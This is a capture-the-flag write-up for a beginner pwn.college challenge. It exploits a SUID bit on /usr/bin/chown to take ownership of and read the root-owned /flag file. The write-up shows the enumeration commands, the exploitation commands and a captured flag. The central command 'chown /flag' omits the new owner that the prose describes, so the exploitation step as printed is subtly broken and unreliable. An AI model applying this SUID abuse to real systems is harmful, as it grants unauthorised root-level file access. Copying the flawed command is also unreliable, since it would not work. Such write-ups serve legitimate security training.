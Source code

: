 # Challenge Name: chown
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Beginner  
**Date**: 2025-07-16  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/chown`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/chown
```

Output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/chown
```

- The `s` in `-rws` indicates it's a SUID binary.
- `chown` runs with **root privileges**.

## 🚀 Exploitation

The `chown` command in Linux is used to change the ownership of files and directories.
We can simply change the ownership of /flag to hacker(our user).

```bash
chown /flag
cat /flag
```

Output:
```
pwn.college{8pBYmIWne_yzc7eQGB83F0sVZC0.dlzNxwSM0IzMyEzW}
```
